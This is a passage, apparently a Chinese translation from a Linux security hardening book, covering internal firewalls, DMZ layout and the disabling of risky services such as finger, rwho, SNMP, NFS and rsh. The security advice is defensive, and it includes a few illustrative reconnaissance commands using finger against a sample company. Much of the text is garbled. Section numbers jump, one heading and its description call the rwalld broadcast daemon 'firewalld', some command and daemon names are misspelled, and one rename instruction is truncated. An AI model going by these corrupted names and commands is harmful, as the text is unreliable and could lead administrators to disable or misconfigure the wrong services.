一些 ISP 自动提供这种反向 DNS 服务功能。MindSpring（现为 EarthLink.com）就是其中之一。如果你的登录账户在连接时是 `foo`（你的电子邮件地址是 `foo@mindspring.com`），那么在连接期间，你的家庭系统名称将是 `foo.users.mindspring.com`。嗯，这大约 80% 的时间有效。

另一种解决方案是使用回拨（dial-back）。这是用户拨号进入系统。程序提示她输入其母亲的电话号码。如果是批准的线路，系统挂断电话，然后拨打用户的调制解调器。这限制了访问仅限于授权用户，并且在未窃听电话的情况下不可能发生无密码入侵。

最后一种替代方案是你的组织为她提供 PPP 拨入。然后她可以双重连接她的 ISP，并建立与你服务器的 PPP 连接。自然，这个连接的安全性与电话线路相同。请记住，如果她的系统之前访问过的被妥协或黑客网站通过一个复杂的特洛伊木马植入了她的系统，你的机构网络仍可能被妥协。这种多米诺骨牌效应很难阻止。另一种被妥协的途径是，当通过 PPP 连接到你的网络时，她同时也通过 DSL 或电缆调制解调器保持与 ISP 的活跃连接。

## 2.9.6 公司内部防火墙用于控制火势

大多数组织只有一个简单的防火墙，位于它们的网络和互联网之间。他们希望攻击者永远无法突破或绕过它。同时，他们也希望攻击不会源自于其组织内部。在系统管理中，期望没有任何位置；它只是对需要解决的安全弱点的一种认知。即使在最小的组织中，部署公司内部防火墙以将任何安全漏洞限制在组织的某个部分并保护更敏感的区域，也是一个绝佳的主意。硬件非常便宜，软件是免费的，因此不这样做很难得到合理解释。

有些人将公司内部防火墙称为内部防火墙或分布式防火墙。

显然，防火墙拓扑结构将取决于具体需求。一种常见的拓扑结构是星型布局，其中每个部门或类型的网络都通过其电缆连接到防火墙系统。该防火墙系统将拥有许多以太网卡，并允许在特定部门和主防火墙之间路由许多服务。因此，如果Q部门的某人违反策略，将调制解调器连接到其桌面系统，拨号连接到其个人ISP并被入侵，整个公司的其余部分都将面临风险。网络应根据系统的易受攻击程度及其数据的重要性，而不是部门名称进行划分。

例如，许多公司只有一个研发部门，但将其与“下一代产品”相关的系统与正在支持现有服务的系统分开，并将其放置在具有单独连接到公司内部防火墙的独立网络上，可能是有意义的。“下一代产品”系统包含机密数据，一旦泄露，可能会通过泄露其秘密给公司造成数百万美元的损失。另一方面，支持现有产品的系统很可能会收到大量用于重现问题的客户代码。其中一些代码可能包含特洛伊木马。此外，这些人可能需要拨号到客户处，从而为安全问题进入或离开公司提供路径。典型的拓扑结构如图 2.3 所示。

如您在图 2.3 中看到的，使用了多个防火墙以防止安全漏洞在公司范围内蔓延。虽然有可能在一台 Linux 机器上同时完成企业防火墙和公司内部防火墙 #1 的功能，但将它们分开可以生成更简单、更少出现错误的规则，尽管这需要维护多个系统的工作量。此外，这将把公司内部的负载集中在一台机器上，而互联网与外部非军事区（DMZ）系统之间的负载则放在另一台机器上。许多组织拥有那些被认为已不再适用于桌面使用、但功率足以用于防火墙用途的系统。非军事区（DMZ）是一个网络段，其中放置

### 防火墙与企业护城河



**图 2.3** 公司内部防火墙。


这些公共可访问的系统，例如 Web 服务器、外部可用的 FTP 服务器，以及可供外部系统访问的 DNS 服务器。你希望有一个防火墙来保护你的内部系统免受这些系统可能受到入侵的影响，但你也需要防火墙保护这些 DMZ 系统免受来自互联网的未授权访问。

因此，DMZ 既不在内部也不在外部，但其周围都有保护。非军事区（Demilitarized Zone）这一术语已经被广泛采用。图 2.3 展示了几个有趣的特点。在 R&D 网络和测试实验室之间有一个次要的公司内部防火墙。这是为了保护 R&D 免受测试段上创建的虚假数据包的影响。公司内部防火墙 #3 保护大型机免受所有人的访问，因为它是设计在非常受保护的环境中运行的。

邮件服务器位于企业防火墙内部。通过不将其放在 DMZ 段上，公司内部的电子邮件就留在了 DMZ 段之外。这将防止原本成功的对 Web 服务器或 CGI 执行系统的入侵通过嗅探获取公司内部机密邮件。企业防火墙仅允许来自互联网的 SMTP 和 SSH 服务访问它。有一个内部 DNS 系统，它了解所有内部系统；外部 DNS 系统可以从互联网进行查询，但它只知道像邮件服务器和位于 DMZ 上的公共系统等信息。

Web 页面、CGI 执行、FTP 服务和 DNS 各自拥有独立的专用机器。这提供了额外的保护：如果其中任何一项服务受到入侵（由于当前未知安全漏洞），其他服务不会受到影响。在小型企业中，这些服务中的某些可以合并到更少的机器中，但风险会增加。

许多黑客入侵系统是为了引起同行和媒体的注意。篡改 Web 页面非常流行，但配置正确的 Apache 服务器非常安全。因此，黑客通常会尝试入侵系统并通过有漏洞的 CGI、`ftpd` 甚至 `named` 获取 root 访问权限。

在这种配置中（拥有 DMZ 和针对不同服务的独立系统），即使黑客在 CGI 和 `ftpd` 系统上获得 root 权限，仍然无法篡改 Web 页面。需要指出的最后一点是，电子商务数据库位于一个独立的系统上。再次强调，我们并不信任 CGI。CGI 仅将处理请求发送到数据库系统。数据库系统上的监听进程应仔细编写，以确保没有缓冲区溢出等类似问题。此外，以受限权限运行将限制任何漏洞的影响。因此，如果 CGI 系统被入侵，数据库不会受到重大损害。电子商务数据库通过单独的单向信用卡服务器（OWCCS）与客户信用卡处理进行通信。这个 OWCCS 永远不会向电子商务数据库系统透露任何信用卡号码。

相反，当进行购买时，OWCCS 会被告知购买金额、客户姓名和号码。它生成交易并通过单独的硬件将其发送到信用卡清算公司。它永远不会将信用卡号码传回给电子商务数据库。绝不。它没有连接来请求这些数据。

一些公司可能拥有与外部供应商或客户的网络连接。例子包括信用卡处理商和各种数据源。例如，一家证券交易公司可能有一个提供当前股价的数据源。（2000 年夏天在一个主要数据源中发现了一个非常严重的安全漏洞，这绝对是实际问题。）银行将拥有用于处理电子资金转账（EFT）事件的专用网络连接。

这些连接绝对应该通过防火墙与公司其余部分隔离。这可以保护你的实体免受这些服务漏洞的影响，并保护那些实体免受源自你组织的问题的影响。这增加了“安全环”。组织的分支机构也应类似地处理。

## 2.10 关闭不必要的服务


每项服务都是进入系统的一扇门，具有不同级别的安全性。每关闭一项服务，就是封闭了一个进入系统的访问点。为了便于设置和用户友好，大多数 Linux 发行版会开启尽可能多的服务。你的系统很可能留有这种设置的痕迹，表现为你不想要、不知道其存在且在没有配置变更和安全补丁的情况下可能不安全的残留服务。我们将讨论这些常见服务及其相对风险。

端口（ports）C 程序位于光盘上。它将扫描你的系统端口，列出可用的服务、正在使用的服务，并识别正在使用的可疑端口号，这些端口号可能是充当服务器监听黑客的特洛伊木马。它被设计得易于使用。以下是一个典型的调用示例。

- `ports`
- `more`

默认开启的服务因发行版而异，且同一发行版的不同版本之间也有所不同。此外，很少有人保留如此详细的记录，以至于可以查询他们开启了哪些服务，关闭了哪些服务。有时，黑客会将特洛伊木马插入到现有服务中。有几种很好的方法可以查看哪些服务是可用的。它们在此列出，并建议按顺序使用所有这些方法。

> 作者提供了一些用 C 语言编写的程序。要将其中任何一个编译成可执行（二进制）程序，例如 `ports.c`，请执行以下操作：
>
> - 创建或切换到一个用于工作的目录（避免公开可写的目录，如 `/tmp`）。将源文件 `ports.c` 复制到该目录中。

```bash
发布以下命令以编译程序
make ports
cc -o ports ports.c
如果需要，通过以下方式在安装前进行测试：
./ports
为其赋予安全的权限：
chmod 755 ports
如果需要，以 root 身份将其安装到公共目录中，通过：
su
cp ports /usr/local/bin/ports
退出 root shell
exit
如果是 tcsh 或 csh，请发布命令
rehash
```

### 1. 使用 ports、netstat 或 lsof 查看哪些端口上有进程正在监听

这是一种简单的方法，可以根据其知名端口来确定哪些服务正在运行。附录 C 列出了每个常用 TCP 和 UDP 端口关联的服务。

调用 `netstat` 实现此目的的最佳方式是：

```
netstat -atuvp | more
```

`-a` 标志表示应列出未连接到其他系统关联端口的端口。这对于列出当前没有客户端的服务器非常重要。`-t` 和 `-u` 标志指定仅列出 TCP 和 UDP 服务。`-v` 标志增加详细程度。`-p` 标志表示列出使用每个端口的活动程序名称；这需要 root 权限。

我编写了一个程序，提供比 `netstat` 更容易解释的结果形式。此外，它标记了可疑的端口，包括已知被用作流行黑客工具的活跃端口。它还标记了被守护进程使用的高编号端口。通常，高编号端口由客户端使用。这些被标记的端口也可能是被黑客植入的特洛伊木马。典型调用如下所示。

```
ports | more
```

在这个阶段，我们主要关注的是保护系统安全，并不期望发现系统已经被入侵。有些系统可能已经被入侵，一些读者会感到惊讶。（感到惊讶的被要求将详细信息通过电子邮件发送至 `book@verysecurelinux.com`。）

### 2. 检查启动脚本

这些脚本显示了通过守护进程支持的服务。在遵循 UNIX V 风格启动脚本的发行版中，有形式为 `/etc/rc.d/rc[0-6].d` 的目录。正常运行状态是 3。这可以通过以下命令验证

```
grep initdefault /etc/inittab
```

输出看起来可能像这样：

```
id:3:initdefault:
```

检查此输出以查看列出了哪个状态编号，本例中为 "3"。然后发出命令

```
ls -F /etc/rc.d/rc3.d/S*
```

#### 2.10 关闭不需要的服务

列出的服务是系统在启动时启动的守护进程所对应的服务。在基于 Red Hat 的系统上，有一个由菜单驱动的程序，可用于查看和更改哪些服务被启动。调用该程序请发出命令

```
ntsysv
```

### 3. 检查 `/etc/xinetd.d/*` 或 `/etc/inetd.conf`

`/etc/xinetd.d` 目录包含由 `xinetd`（新的超级服务器）提供的每个服务的配置文件。虽然管理许多配置文件比管理 `inetd` 的单个配置文件更费力，但 `xinetd` 具有许多适用于重型服务器的功能。这些功能包括限制特定服务同时运行的实例数量，以及更改每个服务器的进程优先级以替代默认值。它内置了 `libwrap` 库，用于解析 `/etc/hosts.allow` 和 `hosts.deny` 文件，以决定允许哪些远程系统使用每个服务。通过使用 `libwrap`，系统通过消除分叉 `tcpd` 进程来进行此操作，从而大大降低了系统负载。

可用于服务配置文件的一些更有用的变量包括：

- `disable`：在不删除配置文件的情况下禁用服务。
- `instances`：指定允许的服务同时实例数量，或设置为 `UNLIMITED` 以不强制限制。
- `nice`：增加 `nice` 值（即降低服务器优先级）或反之。
- `user`：指定服务器将以何种用户权限运行。
- `group`：指定服务器将以何种组权限运行。
- `SENSOR`：在此端口上监听攻击者，但在有人连接时实际上并不启动服务器。相反，在 `deny_time` 设置过期之前，不接受来自客户端系统的进一步连接。这可以减缓黑客的速度，但效果不如良好的自适应防火墙。
- `only_from`：指定允许使用此服务的主机。它与所支持的 TCP Wrappers 在 IPv6 地址方面是冗余的。向 IPv6 的过渡似乎与向公制系统的过渡一样缓慢。


`access_times`：指定服务将支持的时间段。如果你管理的是朝九晚五的业务，`access_times`可用于防止人们通过冲击你的 SSH、FTP、POP 或 IMAP 服务器在夜间尝试暴力破解密码。不幸的是，无法指定星期几，因此黑客仍可在周末白天攻击你。它还可用于限制白天公开服务和相应的负载。

更好的解决方案是在防火墙脚本中拥有一些条件代码，根据时间和星期几进行键控，并从`cron`在营业日结束时调用此脚本。

并非所有 Linux 发行版都已迁移到`xinetd`，原因是担心安全漏洞及其配置文件需要更多的维护工作。此外，相对于`inetd`并没有压倒性的优势。与`xinetd`不同，`inetd`程序使用`/etc/inetd.conf`文本文件列出它将监听的所有端口，然后分叉适当的程序来处理请求。关于 Red Hat 的`inetconvert`，用于将`inetd.conf`配置为适合`xinetd`的配置文件，在第 60 页的“加速 Red Hat 7.3”中进行了讨论。

## 4. 使用 `ps` 列出进程

`ps` (Process Status) 命令可用于列出系统上所有正在运行的进程，并识别出哪些是守护进程。这需要大量的系统知识。许多守护进程的名称以“d”结尾（代表 daemon）。以下`ps`的调用是典型的。

```
ps -axlw
```

`-a`标志导致列出所有进程，而不仅仅是调用者终端上的进程。`-x`标志表示应列出与终端无关的进程，因为守护进程通常是在系统设置期间或通过`cron`调用的。`-l`标志表示长列表。第一个`w`表示宽；输出将被截断为 130–160 列，而不是 80 列，具体取决于 Linux 发行版和版本。第二个`w`表示更宽；在 Red Hat 上，输出将不限制。在 Slackware 上，每个`w`会增加另一 80 列可能的输出。

建议用于决定允许哪些服务的规则如下：

- A. 不要运行你不懂的服务。关闭它们比从入侵和保密违反中恢复更容易。
- 如果你不懂它，你就无法理解其安全影响。如果你不懂安全，你可能没有任何安全。
- B. 考虑保留服务开启，冒着降低安全风险，与关闭服务并“弄坏某些东西”相比。选择更好的安全性并关闭它。
- C. UDP 源地址可以被伪造，因此依赖 UDP 源地址进行安全的服务是不安全的（除非你绝对信任每个可以“到达”使用 UDP 的客户端和服务器的系统）。
- 如果你局域网上的系统可以信任，并且你的 UDP 服务只与局域网上的 IP 地址通信，并且你的防火墙将阻止伪造这些地址的系统，那么 UDP 服务可安全用于身份验证。
- 那是很多条件。
- D. 避免通过网络发送明文密码（未加密的密码）的服务。Telnet、FTP、pop3、imap 和 http 是最严重的违反者。
- E. 避免通过网络发送未加密机密数据的服务。Telnet、FTP、pop3、imap 和 http 是最严重的违反者。机密电子邮件应使用 PGP 包裹。
- F. 小心那些过去遭受过许多漏洞的服务。这些包括`nfsd`、`rshd`、`logind`、`rexec`、`ftppd`、`sendmail`、`named`和任何 UDP 服务，但还有其他服务。

表 2.3 列出了在许多安装中应该关闭的最危险服务。请注意，任何服务都有潜在的危险。

### 表 2.3 危险服务

| 危险级别 | 名称 | 讨论位置 |
| --- | --- | --- |
| 💀💀💀💀 | rsh, rlogin 和 rexec | 第 146 页的“rsh, rcp, rexec 和 rlogin 服务” |
| 💀💀💀💀 | nfs, mountd, locked, statd, quot | 第 92 页的“关闭 NFS, mountd 和 portmap” |
| 💀💀💀 | sendmail | 第 122 页的“Sendmail” |
| 💀💀💀💀 | finger | 第 88 页的“不要遭受 Finger 攻击” |
| 💀💀💀💀 | tftp | 第 96 页的“关闭 TFTP” |
| 💀💀💀💀 | printer | 第 179 页的“打印服务 (lpd)” |
| 💀💀💀💀 | ftp | 第 138 页的“FTP” |
| 💀💀💀💀 | ident (auth) | 第 179 页的“ident 服务” |

## 表 2.3 危险服务（续）

| 危险等级 | 名称 | 讨论位置 |
|---|---|---|
| ❌❌ | pop3 & imap | 第 152 页的“POP 和 IMAP 服务器” |
| ❌❌ | systat 和 netstat | 第 96 页的“关闭 systat 和 netstat” |
| ❌❌ | linuxconf | 第 581 页的“通过 TCP 端口 98 访问 Linuxconf” |
| ❌❌ | named (DNS) | 第 149 页的“DNS（named，又称 BIND）” |
| ❌❌ | rwhod | 第 89 页的“关闭 rwhod” |
| ❌❌ | rwalld* | 第 90 页的“关闭 rwalld” |
| ❌❌ | syslog | 第 178 页的“syslog 服务” |
| ❌❌ | ingresslock | 第 573 页的“神秘的 Ingresslock” |
| ❌❌ | talk & ntalk* | 第 95 页的“关闭 talk 和 ntalk” |
| ❌❌ | charger* | 第 95 页的“关闭 Echo 和 Chargers” |

\* 具有拒绝服务（DoS）攻击潜力。请勿允许来自外部站点的服务。

这里讨论的 C 程序（`ports.c`）将列出所有开放的 TCP 和 UDP 端口；说明它们的状态；它们连接到的远程 IP、主机和端口（如果有）；并且会指出由于异常端口使用而可能造成的安全漏洞。它能够针对可能属于黑客活动的异常端口活动生成警报，这是其相对于以下命令的优势所在：

```
netstat -atuvp
```

`ports.c`的副本位于光盘上。

建议您定期使用任何服务来查看您的系统导出了什么，以辅助分析。许多人惊讶地发现他们的系统上运行着如此多的服务，其中一些服务很容易被破解。

请注意，全大写字母命名的服务对应的端口是一些已知木马的默认端口号。在许多情况下，木马会被调整为使用不同的端口以使检测更加困难。一些分布式拒绝服务（DDoS）木马的隐身版本，例如`trin0`，在没有保持任何 TCP 或 UDP 端口开放的情况下监听指令，因此极难检测有关细节，请参见第 578 页的“隐身木马”。

`ports.c`程序无法检测到系统中一个恶意的程序，该程序将您的以太网卡设置为混杂模式（Promiscuous mode），并悄悄地监听所有网络流量。有关如何检测该问题的方法，请参见第 393 页的“检测混杂模式网络接口卡”。

### 2.11 高安全性要求最小化服务

为了高安全性，许多专家建议设置防火墙，并配置防火墙以允许 SSH（TCP 端口 22）进入或离开您的主站点，除了您向互联网提供的服务（如电子邮件和 http）。(如果您有一个单独的 Linux 系统，您仍然可以对其应用防火墙规则。这是一个极好的主意，以防止来自未授权系统的黑客有机会尝试寻找您程序中的漏洞。)

通常，您的第一块网卡（`eth0`）连接到互联网，您的第二块网卡（`eth1`）连接到内部局域网（如果有），如下例所示。参见第 106 页的“升级 SSH”，确保您没有带有缓冲区溢出安全漏洞的不安全版本 SSH。

在您的启动序列中，您需要执行以下命令。

```
ipchains -A input -p tcp -j ACCEPT -s 0.0.0.0/0 -d 0.0.0.0/0 22
```

如果您在接收电子邮件的系统上安装了`sendmail`，您可以按如下方式添加`sendmail`的 SMTP TCP 端口 25：

```
ipchains -A input -p tcp -j ACCEPT -s 0.0.0.0/0 -d 0.0.0.0/0 25
```

可以配置`sendmail`以非 root 用户身份运行，使用 set-GID 指定为 mail；这将大大减少您的安全风险。（这种限制的一个不寻常之处在于不要在`/etc/aliases`中使用别名来执行 root 权限的程序。很少有人使用此功能。）

如果您的防火墙系统还将向内部网络提供服务，而您不希望向互联网提供这些服务，必须小心确保这些服务无法从互联网访问。这些服务可以通过使用 Samba、AppleTalk、NFS 或内部 web 服务器来被阻止。它们也可以通过使用 IP Tables 规则或配置服务器仅绑定到连接内部网络的接口来被阻止。后者在第 66 页的“限制服务器接口”中有讨论。

### 2.12 用砖头替换这些薄弱入口

| 危险等级 ☠ ☠ ☠ ☠ ☠ |

这些服务中的每一个要么无法确保安全，要么泄露了关于系统的过多信息，因此不应允许在任何需要安全的系统上运行。它们已被用于许多成功的入侵事件。

#### 2.12.1 不要获取 Finger 信息

| 危险等级 ☠ ☠ ☠ ☠ |

Finger 是一种远程用户可以获取用户大量信息的方法。这些信息包括：


- 用户当前登录的所有终端，她登录每个终端的时间，自她最后一次在终端上按键以来经过的时间，以及她通过哪个系统连接。
- 她是否有电子邮件（在她的收件箱中）以及其中是否有未读邮件？
- 她在 `/etc/passwd` 中的 GECOS 条目的内容。GECOS 字段用作注释，通常包含此人的完整人类姓名，有时还包含电话号码和邮件停止或地址。
- 她的登录目录路径。
- 她使用的 shell。
- 她的 `.plan` 和 `.project` 文件的内容（这些文件本来就是用于此目的的）。

这源于互联网更人性化、更温和的早期日子，那时大家相处融洽。在现代社会，运行这个服务太危险了。它向世界上任何人索取时都泄露了许多可能辅助入侵尝试的信息。一个黑客可以这样做：

```
finger root@pentacorp.com
```

以查看是否有任何管理员潜伏在周围，可能会注意到他们的捣乱行为。他可以列出所有登录用户：

```
finger @pentacorp.com
```

登录过程（以及 telnet 和 ftp）在输入虚假账户名称后，会非常仔细地提示用户输入密码，即使该密码将被忽略。这可以防止通过猜测账户名称，因为无论账户名称或密码是否正确，指示都是相同的（登录不正确）。

通过防止黑客发现账户名称，破解变得更加困难，因为他必须同时正确猜测账户名称和密码。这是一个组合难题。这也防止了对密码的账户名称猜测。

`finger` 功能打破了这一点，黑客必须执行 `finger expenta-corp.`，其中 `x` 代表 dave、joe、smith、jones 等常见名字。

在某种程度上，`finger` 可能有用，因为可以使用此方法向用户提供地址和电话号码，但电子邮件已在很大程度上取代了它。关于“未读邮件”的部分是为了让您知道用户是否阅读了您发送的紧急邮件。

`Finger` 追溯到 ARPANET 的早期，当时只有科学家、教授和研究生有权访问。除非您对安全性的信心足够高，以至于您不介意世界知道您的员工何时在办公室或在家，否则它不适合互联网。（知道何时尝试破解系统更安全——因为上面没有人注意到——有助于黑客。）

`finger` 服务由 `/etc/inetd.conf` 中的条目控制；默认情况下它是开启的。您可能需要编辑 `inetd.conf` 文件并注释掉 `finger` 服务的行。要编辑的文件大致如下所示。

```
finger stream tcp nowait nobody /usr/sbin/tcpd.finger
```

要禁用 `finger` 服务，请在行首插入 `#`（使其成为注释）并保存文件。要立即使您的更改生效，请输入：

```
killall -HUP inetd
```

作为替代方案，您可以使用 TCP Wrappers 通过编辑 `/etc/hosts.allow` 来限制 `finger` 在组织内的使用。这在第 112 页的“TCP Wrappers”中有讨论。也可以使用 IP Tables 作为替代。


`rwh` 守护进程是一个允许远程用户查看谁登录到您的系统的进程。客户端程序是 `finger`。它具有 `finger` 的许多安全问题。

- 23. 他们会花费计算资源来加密密码，因为他们的目标是与 `/etc/passwd` 或 `/etc/shadow` 中加密版本进行比较。

这是为了防止黑客通过注意在显示“登录不正确”之前的时间差异来察觉账户是否存在。这一教训也是艰难地学到的。

## 12.1.3 关闭 firewalld

对于攻击者而言，使用 `rwho` 可以让他们监视系统上无人登录的时间窗口，以便开始他们的攻击。它还可以让他们发现系统上的账户用户名，作为可能的攻击点。

很可能，大多数 Linux 发行版都认识到这种漏洞，虽然它们包含 `rwhod`，但大多数默认情况下并未启用它。要验证它是否未在您的系统上运行，请输入以下命令：

```
ps axlwm | grep rwho
```

如果除了 `grep` 本身之外还显示了其他进程，您应该禁用它。请注意，这是从 `/etc/rc.d` 启动的一个守护进程。原因是每个正在运行的 `rwhod` 都会向网络上任何可能正在监听的人广播已登录到系统的用户列表。

当用户调用 `rwho` 时，它会查询本地的 `rwho`，后者会吐出来自其他系统的缓存数据。由于使用的通信方式是 UDP 广播数据包，这些数据不会通过互联网传输。（这是因为 UDP 广播数据包不会由网络进行路由，通常仅限于子网内，除非路由器配置错误。）

由于 `rwho` 不是通过互联网传输的，它可能比 `finger` 更安全，前提是局域网内没有受感染的系统（且局域网不能被攻击者嗅探）。

尽管如此，启用 `rwho` 仍违反了“安全环”的策略，因为如果一个系统被入侵，`rwho` 可以被用来获取其他系统上的账户名称，从而允许进行侵入那些系统的下一步操作。（如果 telnet 和 ftp 被禁用并替换为 ssh 和 sftp，并且邮件经过加密，即使网络嗅探器也无法看到线上的账户名称。）

在 Red Hat 和类似的发行版中，从您的系统中移除 `rwhod` 的命令如下。

```
rpm -e rwho
```


`firewalld` 守护进程是一个允许远程用户向您的系统发送广播消息的进程，这些消息会显示在所有用户的屏幕上。这使得可以发送虚假消息，并通过向用户屏幕输出大量字符甚至加载网络来实施拒绝服务（DoS）攻击。

### 12.1.4 关闭 SNMP

**危险级别**


简单网络管理协议（SNMP）在系统管理员中很流行，特别是在有很多系统的大型安装环境中。它使得远程管理多个系统变得容易。不幸的是，该协议被广泛认为是不安全的。当涉及密码时，它们是以明文传输的，允许通过网络嗅探确定它们。SNMP 使用 UDP，允许使用来自附近优秀攻击者站点唾手可得的工具伪造源地址（“来自”机器）。

> 安全专家之间有一个笑话，认为 SNMP 意味着“安全不是我的问题”（Security Not My Problem）。请记住这一点。

除非你能通过防火墙的使用，保证没有任何攻击者（外部的、内部的、上游的或下游的）可以反向控制 SNMP，否则应该禁用它。SNMP 使用 UDP 端口 `161`。即使是强大的 TCP Wrappers 也无济于事，因为 UDP 地址伪造漏洞和服务都作为一个守护进程 `snmpd` 实现。（TCP Wrappers 仅适用于从 `inetd` 启动的服务，尽管其配套的 `libwrap` 库可以在对守护进程源代码进行少量修改后从守护进程中调用。）

在基于 Red Hat 的系统上，可以通过标准守护进程方式关闭 `snmpd`。这种方式是使用 `chconfig --del service_name`。对于 `snmpd`，命令将是

```
chkconfig --del snmpd
```

在其他支持 V 风格启动脚本的系统上，发出命令

```
ls -l /etc/rc.d/rc.*/S*snmpd*
```

如果找到任何文件，发出以下命令：

```
/etc/rc.d/init.d/snmpd stop
```

并将脚本从 `s...` 重命名为 `s...` 在 Solaris 上，以下命令用于定位它可能启动的位置，以便将其注释掉，并在运行时将其终止。

```
grep snmpd /etc/rc.d/*
```

```
killall snmpd
```

如果你无论如何都要运行它，请确保阻止其端口（UDP 端口 `161`）来自互联网或去往互联网的流量。这将允许你从企业网络内部使用它。（如果你也想从企业网络外部使用它，只需使用 `ssh` 安全地连接到内部系统，并在那里使用 `snmp`。）有些人还建议将众所周知的社区名称，如 `public` 和 `private`，更改为其他难以猜测的名称。

此外，请更改默认密码：

- `public`
- `private`

### 12.1.5 关闭 NFS、mountd 和 portmap

**危险级别 ☠☠☠☠☠☠☠**

NFS 不被认为是安全的，因为标准 NFS 使用 UDP。UDP 协议被认为是不安全的，因为数据包很容易被伪造（欺骗），而且没有通用的防御措施。因此，除非你可以通过防火墙、VPN 或类似技术将其与不受信任的系统隔离，否则不应运行 NFS（或任何其他 UDP 服务），或者以其他方式提供安全性。由于 `nfs` 和 `mount` 不是从 `inet` 启动的，且 TCP Wrappers 甚至 IP Chains 或 IP Tables 都无法检测 UDP 数据包伪造，因此使用 TCP Wrappers 也无济于事。


现代 Linux 发行版中的 NFS 守护进程、`nfsfd` 和 `portmap` 已链接到 TCP Wrappers/libwrap。虽然支持 libwrap 的 NFS 不会解决 UDP 伪造问题，但可以通过 IPSec 或 SSH 使用。Linux 的最新版本为 NFS 文件系统提供了 "`tcp`" 挂载选项。这解决了这些安全问题。对于拥有防火墙的可信局域网中的用户，另一个选项是仅允许通过 VPN（虚拟专用网络）进行 NFS 流量。NFS 守护进程可以通过以下方式关闭：

```
killall portmap
killall rpc.mountd
killall nfsfd
killall rpc.quotad
killall rpc.rstatd
killall rpc.rusersd
killall rpc.lockd
killall rpc.statd
rm -f /var/lock/subsys/nfs
```

## 12.1.6 用砖头替换这些薄弱的门

在 Red Hat、Mandrake 以及使用 System V 风格启动脚本和 RPM 的其他发行版中，可以通过以下方式关闭并永久禁用它：

```
/etc/rc.d/init.d/nfs stop
/etc/rc.d/init.d/nfslock stop
/etc/rc.d/init.d/portmap stop
chkconfig --del nfs
chkconfig --del nfslock
chkconfig --del portmap
```

尽管 Red Hat 在 7.3 版本中的安全性比 6.x 系列有了显著改善，但它仍然启用了 `portmap` 和 `rpc.stat`。请务必关闭这些。

或者，可以使用控制面板或 Linuxconf。在 Slackware 上，编辑 `/etc/rc.d/inet2` 以防止其再次启动。

NFS 的两大主要安全问题之一（除了之前版本中的安全漏洞外）是由于 NFS 运行在 UDP 协议之上。UDP 数据包很容易被伪造，允许攻击者获得你授予给最可信 NFS 客户端的文件系统部分的访问权限，甚至向合法客户端发送虚假数据。另一个问题是数据未加密，因此任何嗅探网络的人都可以看到这些数据。

大约从 2000 年初开始，Linux 发行版开始提供增强的 NFS，它可以像原始的 UDP 协议一样运行在 TCP 之上。在 TCP 上运行 NFS 解决了 UDP 伪造问题。更具体地说，TCP 支持位于 NFSv3 中，该版本首次包含在 2.2.14 内核中。在客户端挂载 NFS 文件系统时可以使用 `tcp` 挂载选项，以通过 TCP 执行 NFS 操作。它也可以放在 `/etc/fstab` 中。

此外，在 TCP 上运行 NFS 允许你使用 TCP Wrappers 限制对 NFS 服务器的访问，并使用 Adaptive TCP Wrappers 检测和锁定非法入侵者。`portmap` 程序现在支持 TCP Wrappers。

我本人并未遇到关于在 TCP 上的 NFS 之上插入安全 Shell `SSH` 的参考，但我预计这样会产生一个对网络嗅探和伪造安全的功能。通过 SSH 封装的 TCP 运行最新版本的 NFS 可能是比完全不使用它更安全的替代方案；但由于经验非常少，因此仍然未知。

将 NFS 从 UDP 切换到 TCP 会付出相当大的性能代价，约为 50%。这是任何给定的基于 TCP 而非 UDP 的客户端/服务器应用的典型特征。这种性能代价是由于支持协议内置确认包而导致流量加倍。TCP 的一个限制是 UDP 不具备的，即由于它是面向连接的，连接两端的进程需要单独的套接字并处理单独的文件描述符。

## 2.12.7 关闭 rsh、rcp、rlogin 和 rexec

危险等级 ☠ ☠ ☠ ☠

`rsh` 程序（Berkeley 创建的远程 shell 的缩写，切勿与 Bell Labs 创建的、在 Linux 上未见的受限 shell 混淆）是一个绝佳的程序，允许同一账户名下的一个人从一台计算机在另一台计算机上远程执行程序。不幸的是，它并不安全。关于其安全模型及其在当今世界不安全的原因的详细解释，请参阅第 146 页的“`rsh`、`rcp`、`rlogin` 和 `rexec`、`login` 服务”。`rexec` 的情况也是如此。

登录（`login`）服务出于相同原因也不安全。它还存在通过在网络中发送未加密（明文）密码的额外不安全性。`telnet` 服务比 `login` 服务稍微安全一些，因为它没有 r* 命令允许在无密码情况下进行操作的那种弱安全模型。尽管这种模型在 1980 年代早期的不同世界中运行良好，但对于当今未受保护的它已不适用。

除非来自所有系统（除受信任系统外）的请求能被阻止，否则应关闭这些服务。请注意，`login` 会发送未加密的密码，因此不应在任何可被嗅探的网络上使用。`SSH`（shell）是 r* 命令的安全替代方案；强烈建议切换到它。可以通过注释 `/etc/inetd.conf` 中的条目来（也应该）关闭它们。它们的条目如下：

```
shell
login
exec
```

对于坚持运行 `in.rshd`（支持 `rsh` 命令的服务器，也许在隔离网络上）的人，在调用 `in.rshd` 时添加 `-L` 标志将成功记录连接日志到 `auth.info` 消息，并将所有禁止的访问记录为 `auth.notice`。此外，不要使用 `-has`，因为这允许 `root` 通过 `rsh` 进入你的系统；如果网络上甚至有一台系统不安全，或者入侵者能够伪造任何受信任主机的 IP 或 MAC 地址，这将是一个严重的安全漏洞。

